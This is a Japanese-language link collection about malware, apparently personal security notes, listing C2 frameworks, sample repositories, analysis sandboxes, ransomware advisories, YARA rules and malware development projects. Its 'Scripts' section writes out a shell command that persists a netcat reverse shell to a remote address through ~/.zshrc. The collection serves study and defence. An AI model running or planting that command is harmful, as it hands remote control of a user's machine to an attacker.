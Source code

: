 # マルウェア

https://malpedia.caad.fkie.fraunhofer.de/

## C2

https://howto.thec2matrix.com/

https://github.com/BishopFox/sliver

## 検体の入手

https://objective-see.org/malware.html

[マルウェア検体を入手する方法](https://www.japan-secure.com/entry/blog-entry-198.html)

[eicar test file](https://www.eicar.org/?page_id=3950)

[SourceFinder: Finding Malware Source-Code from Publicly Available Repositories in GitHub](https://www.usenix.org/system/files/raid20-rokon.pdf)

https://virusshare.com/

https://urlhaus.abuse.ch/

https://github.com/topics/malware-samples

https://github.com/ytisf/theZoo

https://github.com/rshipp/awesome-malware-analysis

https://github.com/vxunderground/MalwareSourceCode

https://github.com/offensive-security/exploitdb

https://github.com/timb-machine/linux-malware

https://artifacthub.io/packages/container/malware-cryptominer-container/malware-cryptominer-container

## 検体

- rootkit
  - https://github.com/enzolovesbacon/inficere
- backDoor
  - https://github.com/mosca1337/OSX-Peristant-BackDoor

## マルウェア解析

- [Free Automated Malware Analysis Sandboxes and Services](https://zeltser.com/automated-malware-analysis/)
  - https://any.run/
- https://www.sans.org/blog/how-you-can-start-learning-malware-analysis/
- [マルウェア解析に必要な素養](https://hackmd.io/@K-atc/S1kLEr5x)
- ブログ
  - https://www.mbsd.jp/research/malware/#contents
  - [東京五輪に関係する日本語のファイル名を持つマルウェア(ワイパー)の解析](https://www.mbsd.jp/research/20210721/blog/)

## Ransomeware

[Ransomware Attacks and Types – How Encryption Trojans Differ](https://www.kaspersky.com/resource-center/threats/ransomware-attacks-and-types)

[ランサムウェア攻撃で悪用された正規ツールを解説](https://blog.trendmicro.co.jp/archives/28681)

https://www.cisa.gov/stopransomware

[侵入型ランサムウェア攻撃を受けたら読むFAQ](https://www.jpcert.or.jp/magazine/security/ransom-faq.html)

## 脅威データベース

https://www.trendmicro.com/vinfo/jp/threat-encyclopedia/

https://urlhaus.abuse.ch/

## マルウェア検知ツール

https://github.com/VirusTotal/yara

https://blog.malwarebytes.com/security-world/technology/2017/09/explained-yara-rules/

https://github.com/hasherezade/hollows_hunter

## VirusTotal

https://www.virustotal.com/gui/

https://keepmealive.jp/about-virustotal/

## マルウェア、ウイルス一覧

- Emotet
  - https://www.ipa.go.jp/security/announce/20191202.html
  - https://github.com/JPCERTCC/EmoCheck
- Phoenix Cryptolocker
  - https://cloudsek.com/threatintelligence/phoenix-cryptolocker-ransomware-threat-intel-advisory/
- Kinsing
  - https://attack.mitre.org/software/S0599
  - https://blog.aquasec.com/threat-alert-kinsing-malware-container-vulnerability
  - https://www.cyberark.com/resources/threat-research-blog/kinsing-the-malware-with-two-faces
- Doki
  - https://www.securecoding.com/blog/all-about-doki-malware/

## Scripts

```bash
# zshrc で永続化
echo '(rm ./pipe; mkfifo ./pipe; cat ./pipe | /bin/sh -i 2>&1|nc 192.168.205.3 1337 > ./pipe &)' >> ~/.zshrc

```

## YARA Rules

https://github.com/JPCERTCC/jpcert-yara

https://github.com/Yara-Rules/rules

https://malpedia.caad.fkie.fraunhofer.de/

## AntiVirus

https://github.com/VirusTotal/yara

https://github.com/Cisco-Talos/clamav

https://github.com/deepfence/YaraHunter

## Development

https://github.com/redcode-labs/Coldfire

https://github.com/tiagorlampert/CHAOS

https://github.com/EgeBalci/ARCANUS

https://github.com/EgeBalci/EGESPLOIT

## Tools

https://github.com/sweetsoftware/Ares

## 参考

[Goで書かれたマルウェアが増加傾向--APTと犯罪グループの両方が利用](https://japan.zdnet.com/article/35167172/)

[ストップ！ ランサムウェア　ランサムウェア特設ページ - NISC](https://security-portal.nisc.go.jp/stopransomware/)

[Ransomware as a Service Innovation Curve](https://www.coveware.com/blog/2022/1/26/ransomware-as-a-service-innovation-curve)
